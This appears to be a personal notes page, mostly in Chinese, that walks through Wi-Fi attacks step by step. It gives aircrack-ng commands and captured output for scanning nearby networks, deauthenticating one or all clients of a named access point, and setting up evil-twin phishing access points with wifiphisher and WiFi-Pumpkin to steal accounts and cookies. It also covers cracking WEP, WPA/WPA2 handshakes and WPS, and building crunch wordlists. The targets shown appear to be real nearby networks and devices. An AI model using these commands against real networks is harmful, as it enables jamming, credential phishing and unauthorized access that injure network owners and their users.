 # Attack

<!-- TOC -->

- [Attack](#attack)
    - [Pre-connection Attack](#pre-connection-attack)
        - [Network Client discovery](#network-client-discovery)
        - [Deauthentication Attack Targeted **one** Client](#deauthentication-attack-targeted-one-client)
        - [Deauthentication Attack Targeted **all** Client](#deauthentication-attack-targeted-all-client)
        - [Creating a Fake Access Point Method 1](#creating-a-fake-access-point-method-1)
        - [Creating a Fake Access Point Method 2(Advanced)](#creating-a-fake-access-point-method-2advanced)
    - [Gaining Access](#gaining-access)
        - [WEP Cracking](#wep-cracking)
        - [Universal Attacking tool](#universal-attacking-tool)
        - [WPAWPA2 - Capturing Handshake](#wpawpa2---capturing-handshake)
        - [WPAWPA2 - Dictionary Attack](#wpawpa2---dictionary-attack)
        - [WPS Cracking](#wps-cracking)
        - [diy wordlist](#diy-wordlist)

<!-- /TOC -->

## Pre-connection Attack

### Network Client discovery

1. change mac address
    ```bash
    ifconfig wlan0 down
    macchanger -A wlan0
    ifconfig wlan0 up
    ```
2. wlan0 to monitor: `airmon-ng start wlan0`
3. quick scan: `airodump-ng wlan0mon`
    ```bash
    ##路由器
    BSSID              PWR  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
    60:45:CB:B0:6E:A8  -80        1        0    0   3  54e  WPA2 CCMP   PSK  Zhao_Lab                                                                           
    C8:3A:35:47:3A:E8  -75        2        0    0   3  54e  WPA2 CCMP   PSK  Tenda_1401                                                                         
    DC:FE:18:38:31:A1  -83        2        0    0  13  54e. WPA2 CCMP   PSK  hailingkeji                                                                        
    B0:C5:54:D7:9B:96  -72        2        2    0   1  54e  WPA2 CCMP   PSK  ionbeam412                                                                         
    1C:1D:86:F6:E8:D0  -78        1        0    0   1  54e. WPA2 CCMP   PSK  agch                                                                                
    80:D4:A5:6D:30:C9  -76        2        0    0   1  54e. WPA2 CCMP   PSK  tuniondata                                                                          
    80:F6:2E:1C:90:F0  -76        2        0    0   1  54e. OPN              ChinaUnicom                                                                        
    80:F6:2E:1C:90:F1  -73        2        0    0   1  54e. OPN              CCB                                                                                
    80:F6:2E:1C:90:F2  -72        2        0    0   1  54e. OPN              <length:  0>                                                                       
    DC:FE:18:2A:A6:32  -76        2        0    0   1  54e  WPA2 CCMP   PSK  TP-LINK_A632                                                                       
    30:FC:68:C2:9A:6F  -66        2        0    0   1  54e. WPA2 CCMP   PSK  1223                                                                               
    74:1E:93:62:6F:38  -74        2        0    0   1  54e  WPA  CCMP   PSK  CU_bIOL                                                                            
    28:6C:07:9E:6A:F5  -41        3       11    1   8  54e  OPN              316                                                                                
    ## 路由器和客户端                                                                                                                                                                 
    BSSID              STATION            PWR   Rate    Lost    Frames  Probe                                                                                    
    (not associated)   5C:C5:D4:C9:52:6B  -50    0 - 1      0        1                                                                                           
    (not associated)   78:11:DC:01:AD:B1  -68    0 - 1      0        1  wyg                                                                                      
    (not associated)   82:99:5C:81:4B:19  -76    0 - 1      3        3  JYPNet_5G                                                                                
    28:6C:07:9E:6A:F5  94:65:2D:31:03:F1  -56    0e- 0e     0        4                                                                                           
    28:6C:07:9E:6A:F5  FC:FC:48:DA:CE:5B   -1    0e- 0      0        9 
    ```
4. 查看某一个路由器上面的client,可以在[MacVendor](https://macvendors.com/)上面查看厂家
    ```bash
    #查看316上面的client
    airodump-ng wlan0mon --bssid  28:6C:07:9E:6A:F5 --channel 8
    ##output
    BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
    28:6C:07:9E:6A:F5  -44 100     2086     1986    0   8  54e  OPN              316                                                                            
    BSSID              STATION            PWR   Rate    Lost    Frames  Probe                                                                                   
    28:6C:07:9E:6A:F5  18:BC:5A:81:9A:0C  -42    0e- 0e     0       57                                                                                           
    28:6C:07:9E:6A:F5  28:C6:3F:C9:66:C5  -60    1e- 1e     0       39                                                                                           
    28:6C:07:9E:6A:F5  8C:A9:82:43:43:1A  -62    0 - 0e     0       42                                                                                           
    28:6C:07:9E:6A:F5  00:DB:DF:85:9E:3B  -66    0e- 6e     0      531                                                                                           
    28:6C:07:9E:6A:F5  AC:C1:EE:33:C0:08  -68    1e- 1e     0     1795                                                                                           
    28:6C:07:9E:6A:F5  8C:85:90:2B:11:A1  -68    0 - 6      0        4
    ```
    > 只要抓到包，就停止下面的Deauth攻击, 开始跑字典了  
    > 或者指定保存的文件`airodump-ng wlan0mon --write result --bssid  28:6C:07:9E:6A:F5 --channel 8`
### Deauthentication Attack Targeted **one** Client

原理：伪装成路由器(自动修改自身的mac address)，发送断开包给client,将client断开.使用的是**package injection**

```bash
#攻击方式是:deauth;
#发送2000个deauth包;--deauth
#ap(access point)是316;-a
#target_client是18:BC:5A:81:9A:0C;-c
aireplay-ng --deauth 2000 -a 28:6C:07:9E:6A:F5 -c 18:BC:5A:81:9A:0C wlan0mon

##output
18:58:56  Waiting for beacon frame (BSSID: 28:6C:07:9E:6A:F5) on channel 8
18:58:57  Sending 64 directed DeAuth. STMAC: [18:BC:5A:81:9A:0C] [ 1|62 ACKs]
18:58:57  Sending 64 directed DeAuth. STMAC: [18:BC:5A:81:9A:0C] [ 0|58 ACKs]
18:58:58  Sending 64 directed DeAuth. STMAC: [18:BC:5A:81:9A:0C] [ 8|59 ACKs]
18:58:59  Sending 64 directed DeAuth. STMAC: [18:BC:5A:81:9A:0C] [ 6|62 ACKs]
18:58:59  Sending 64 directed DeAuth. STMAC: [18:BC:5A:81:9A:0C] [ 2|65 ACKs]
18:59:00  Sending 64 directed DeAuth. STMAC: [18:BC:5A:81:9A:0C] [ 0|62 ACKs]
18:59:01  Sending 64 directed DeAuth. STMAC: [18:BC:5A:81:9A:0C] [ 0|63 ACKs]
```

### Deauthentication Attack Targeted **all** Client

采用github上面的工具：[wifijammer](https://github.com/DanMcInerney/wifijammer)

`wget https://raw.githubusercontent.com/DanMcInerney/wifijammer/master/wifijammer.py`

```bash
#help,其中最后一条--world，如果不在美国，需要添加参数--world
#(因为美国的总channels=11,日本总channes=14,其他地方总channels=13)
python wifijammer.py --help

#踢掉所有316的clients
python wifijammer.py --world -a 28:6C:07:9E:6A:F5

##output
[+] wlan0mon channel: 2

                  Deauthing                 ch   ESSID
[*] 28:6c:07:9e:6a:f5 - 28:c6:3f:c9:66:c5 - 8  - 316
[*] 18:bc:5a:81:9a:0c - 28:6c:07:9e:6a:f5 - 8  - 316
[*] 8c:a9:82:43:43:1a - 28:6c:07:9e:6a:f5 - 8  - 316

      Access Points     ch   ESSID
[*] 28:6c:07:9e:6a:f5 - 8  - 316
```

```bash
#简单方法
#kick all continuously
aireplay-ng --deauth 0 -a 28:6C:07:9E:6A:F5 wlan0mon
```

### Creating a Fake Access Point Method 1

钓鱼法: 创建一个和某个路由器相同的AP,然后钓鱼，需要两个网卡

采用github上面的工具：[wifiphisher](https://github.com/DanMcInerney/wifijammer)

```bash
#git clone repo
git clone https://github.com/wifiphisher/wifiphisher
#install
cd wifiphisher/
python setup.py install
```

Requirement: One wireless network adapter that supports **AP & Monitor mode** and is capable of **injection**;For advanced mode, you need two cards; one that supports AP mode and another that supports Monitor mode.

直接`wifiphisher`,然后再界面上选择要钓鱼的路由器；选择钓鱼界面；然后等鱼上钩

### Creating a Fake Access Point Method 2(Advanced)

钓鱼法: 创建一个和某个路由器相同的AP,然后钓鱼(窃取其他账号)

采用github上面的工具：[WiFi-Pumpkin](https://github.com/P0cL4bs/WiFi-Pumpkin),可以track every request made by client,还可以**dns Spoof**, **Transparent Proxy**(inject javascript, get cookies)

```bash
git clone https://github.com/P0cL4bs/WiFi-Pumpkin.git
cd WiFi-Pumpkin
./installer.sh --install
#to use
wifi-pumpkin
```

调整GUI中的SSID和channel到目标AP;

## Gaining Access

3 Encryption:

- WEP
- WPA
- WPA2(PSK)
- WPA2(Enterprise)

### WEP Cracking

使用：**fern-wifi-cracker**

```bash
fern-wifi-cracker
#然后弹出GUI
#选择WEP那个，然后点击Attack
```

破解速度取决于: 密码的复杂度、加密复杂度、电脑性能

### Universal Attacking tool

使用的是**wifite**(`wifite --help`)

```bash
#直接wifite进行monitor,然后Ctrl+C，用序号选择target-ap
wifite
```

### WPAWPA2 - Capturing Handshake

直接用上面的wifiite就可以了，生成`.cap`的文件

### WPAWPA2 - Dictionary Attack

直接在fern里面也可以跑

wifite抓包，然后`aircrack-ng -w /root/wifiDict/simpleDict.txt ionbeam412_B0-C5-54-D7-9B-96.cap`

### WPS Cracking

3~10Hours

```bash
wash -i wlan0mon
```

### diy wordlist

```bash
#最小长度5；最大长度7；字符集123456abc；
crunch 5 7 123456abc -o myDict.txt

#7位，以a开头，以b结尾，中间@是5个lowercase
#,是upper case
#%,是number
#^,是symbols
crunch 7 7 abdegeshji -t a@@@@@b